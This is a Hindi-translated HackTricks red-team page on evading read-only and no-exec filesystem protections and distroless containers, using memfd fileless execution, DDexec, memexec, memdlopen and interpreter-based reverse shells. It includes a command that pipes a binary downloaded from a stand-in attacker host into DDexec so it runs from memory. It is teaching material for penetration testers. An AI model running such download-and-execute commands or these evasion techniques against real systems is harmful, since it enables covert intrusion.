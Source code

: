 # FS सुरक्षा को उलटा: केवल पढ़ने योग्य / कोई-कार्यात्मक / Distroless

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert) के साथ शून्य से हीरो तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>!</strong></a></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks swag**](https://peass.creator-spring.com) प्राप्त करें
* हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो** करें।
* **HackTricks** और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PR जमा करके अपने हैकिंग ट्रिक्स साझा करें।

</details>

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

यदि आप **हैकिंग करियर** में रुचि रखते हैं और अहैकेबल को हैक करना चाहते हैं - **हम नियुक्ति कर रहे हैं!** (_चुस्त पोलिश लिखने और बोलने की आवश्यकता है_).

{% embed url="https://www.stmcyber.com/careers" %}

## वीडियो

निम्नलिखित वीडियो में आप इस पृष्ठ में उल्लिखित तकनीकों को अधिक गहराई से समझ सकते हैं:

* [**DEF CON 31 - गुप्तचरता और टालने के लिए लिनक्स मेमोरी मेनिपुलेशन का अन्वेषण**](https://www.youtube.com/watch?v=poHirez8jk4)
* [**DDexec-ng और इन-मेमोरी dlopen() के साथ गुप्त अतिक्रमण - HackTricks Track 2023**](https://www.youtube.com/watch?v=VM\_gjjiARaU)

## केवल पढ़ने योग्य / कोई-कार्यात्मक स्थिति

लिनक्स मशीनों को **केवल पढ़ने योग्य (ro) फ़ाइल सिस्टम सुरक्षा** के साथ माउंट करना अधिक सामान्य हो रहा है, विशेष रूप से कंटेनर में। यह इसलिए है क्योंकि ro फ़ाइल सिस्टम के साथ कंटेनर चलाना **`readOnlyRootFilesystem: true`** को `securitycontext` में सेट करना इतना आसान है:

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

हालांकि, यदि फ़ाइल सिस्टम को ro के रूप में माउंट किया गया है, तो **`/dev/shm`** अभी भी लिखने योग्य होगा, इसलिए यह झूठ है कि हम डिस्क में कुछ भी लिख नहीं सकते। हालांकि, इस फ़ोल्डर को **कोई-कार्यात्मक सुरक्षा के साथ माउंट किया जाएगा**, इसलिए यदि आप यहाँ एक बाइनरी डाउनलोड करते हैं तो आप **इसे क्रियान्वित नहीं कर सकेंगे**।

{% hint style="warning" %}
रेड टीम की दृष्टि से, यह **जटिल बना देता है कि डाउनलोड और क्रियान्वित करें** बाइनरी जो पहले से सिस्टम में नहीं हैं (जैसे बैकडोर या `kubectl` जैसे जांचकर्ता)।
{% endhint %}

## सबसे आसान उल्टा: स्क्रिप्ट

ध्यान दें कि मैंने बाइनरी का उल्लेख किया, आप **किसी भी स्क्रिप्ट को क्रियान्वित कर सकते हैं** जब तक अंतर्वादक मशीन में हो, जैसे एक **शैल स्क्रिप्ट** अगर `sh` मौजूद है या एक **पायथन स्क्रिप्ट** अगर `पायथन` स्थापित है।

हालांकि, यह आपके बाइनरी बैकडोर या अन्य बाइनरी उपकरणों को चलाने के लिए जो आपको चलाने की आवश्यकता हो सकती है, इसके लिए केवल इतना ही काफी नहीं है।

## मेमोरी उल्टा

यदि आप एक बाइनरी को क्रियान्वित करना चाहते हैं लेकिन फ़ाइल सिस्टम इसे नहीं करने दे रहा है, तो इसे करने का सबसे अच्छा तरीका है **मेमोरी से क्रियान्वित करना**, क्योंकि **सुरक्षा उसमें लागू नहीं होती**।

### FD + exec सिसकॉल उल्टा

यदि आपके पास मशीन में कुछ शक्तिशाली स्क्रिप्ट इंजन हैं, जैसे **पायथन**, **पर्ल**, या **रूबी** तो आप मेमोरी से क्रियान्वित करने के लिए बाइनरी डाउनलोड कर सकते हैं, इसे एक मेमोरी फ़ाइल डिस्क्रिप्टर में स्टोर कर सकते हैं (`create_memfd` सिसकॉल), जिसे उन सुरक्षा उपायों द्वारा सुरक्षित नहीं किया जाएगा और फिर एक **`exec` सिसकॉल** को कॉल करके **fd को फ़ाइल के रूप में क्रियान्वित करने** के लिए।

इसके लिए आप आसानी से परियोजना [**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec) का उपयोग कर सकते हैं। आप इसे एक बाइनरी पास कर सकते हैं और यह उसे एक निर्दिष्ट भाषा में स्क्रिप्ट उत्पन्न करेगा जिसमें बाइनरी को **डिकोड और डीकंप्रेस** करने के निर्देश और एक **fd** को बुलाने के लिए `create_memfd` सिसकॉल और इसे चलाने के लिए **exec** सिसकॉल के निर्देश होंगे।

{% hint style="warning" %}
यह अन्य स्क्रिप्टिंग भाषाओं में काम नहीं करता क्योंकि उनके पास कोई **डिफ़ॉल्ट तरीका नहीं है जिससे स्क्रिप्ट से रॉ सिसकॉल को कॉल किया जा सके**, इसलिए बाइनरी को स्टोर करने के लिए **मेमोरी fd** बनाने के लिए `create_memfd` को कॉल करना संभव नहीं है।

इसके अतिरिक्त, `/dev/shm` में एक **नियमित fd** बनाना काम नहीं करेगा, क्योंकि आप इसे चलाने की अनुमति नहीं मिलेगी क्योंकि **कोई-कार्यात्मक सुरक्षा** लागू होगी।
{% endhint %}

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec) एक तकनीक है जो आपको अपने खुद के प्रक्रिया की **मेमोरी को संशोधित करके** उसकी **`/proc/self/mem`** को अधिग्रहित करने की अनुमति देती है।

इसलिए, प्रक्रिया द्वारा निष्पादित एसेम्बली को नियंत्रित करके, आप एक **शैलकोड** लिख सकते हैं और प्रक्रिया को **किसी भी विचित्र कोड** को निष्पादित करने के लिए "परिवर्तित" कर सकते हैं।

{% hint style="success" %}
**DDexec / EverythingExec** आपको अपने खुद के **शैलकोड** या **किसी भी बाइनरी** को **मेमोरी** से लोड और **निष्पादित** करने की अनुमति देगा।
{% endhint %}
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
### MemExec

[**Memexec**](https://github.com/arget13/memexec) DDexec का प्राकृतिक अगला कदम है। यह एक **DDexec शैलकोड डेमनाइज्ड** है, इसलिए हर बार जब आप **एक विभिन्न बाइनरी चलाना चाहते हैं** तो आपको DDexec को फिर से लॉन्च करने की आवश्यकता नहीं है, आप सिर्फ memexec शैलकोड को DDexec तकनीक के माध्यम से चला सकते हैं और फिर **इस डेमन के साथ संवाद करके नए बाइनरी को लोड और चलाने** के लिए।

आप [https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php) में **memexec का उपयोग कैसे करें** के एक उदाहरण पा सकते हैं।

### Memdlopen

DDexec के समान उद्देश्य के साथ, [**memdlopen**](https://github.com/arget13/memdlopen) तकनीक एक **सरल तरीके से बाइनरी** को मेमोरी में लोड करने की अनुमति देती है ताकि उन्हें बाद में चलाया जा सके। यह यहाँ तक कि विभिन्न डिपेंडेंसी के साथ बाइनरी को लोड करने की अनुमति दे सकती है।

## Distroless Bypass

### Distroless क्या है

Distroless कंटेनर में केवल **एक विशिष्ट एप्लिकेशन या सेवा को चलाने के लिए आवश्यकता होने वाले न्यूनतम घटक** होते हैं, जैसे पुस्तकालय और रनटाइम डिपेंडेंसियोंस, लेकिन एक पैकेज प्रबंधक, शैल या सिस्टम उपयोगिताएं जैसे बड़े घटकों को छोड़ देते हैं।

Distroless कंटेनरों का लक्ष्य है कंटेनरों के **हमले की सतह को कम करके अनावश्यक घटकों को हटाकर** और उन विकल्पों की संख्या को कम करके उन भेदभावों की संख्या को कम करना जो शोषित किया जा सकता है।

### रिवर्स शैल

एक distroless कंटेनर में आपको **शायद ही `sh` या `bash`** मिलेगा जिससे आप एक साधारण शैल प्राप्त कर सकें। आप `ls`, `whoami`, `id` जैसी बाइनरी भी नहीं पाएंगे... जो आप सामान्यत: एक सिस्टम में चलाते हैं।

{% hint style="warning" %}
इसलिए, आप **रिवर्स शैल** या **सिस्टम की जांच** करने के रूप में जैसा आप सामान्यत: करते हैं, वैसा करने में **सक्षम नहीं** होंगे।
{% endhint %}

हालांकि, यदि प्रभावित कंटेनर में उदाहरण के लिए एक फ्लास्क वेब चल रहा है, तो पायथन स्थापित है, और इसलिए आप एक **पायथन रिवर्स शैल** प्राप्त कर सकते हैं। यदि यह नोड चल रहा है, तो आप एक नोड रिवर्स शैल प्राप्त कर सकते हैं, और इसी तरह से अधिकांश के साथ **स्क्रिप्टिंग भाषा** के साथ।

{% hint style="success" %}
स्क्रिप्टिंग भाषा का उपयोग करके आप **भाषा की क्षमताओं का उपयोग करके सिस्टम की जांच** कर सकते हैं।
{% endhint %}

यदि **कोई `read-only/no-exec`** सुरक्षा उपाय नहीं है तो आप अपने रिवर्स शैल का दुरुपयोग करके **फाइल सिस्टम में अपने बाइनरी** लिख सकते हैं और उन्हें **चला** सकते हैं।

{% hint style="success" %}
हालांकि, इस प्रकार के कंटेनरों में ये सुरक्षा उपाय आमतौर पर मौजूद होंगे, लेकिन आप **पिछले मेमोरी निष्पादन तकनीकों का उपयोग करके उन्हें अनदेखा कर सकते हैं**।
{% endhint %}

आप **कुछ RCE वंशांकनों का दुरुपयोग कैसे करें** और [**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE) में मेमोरी से बाइनरी चलाने के उदाहरण पा सकते हैं।

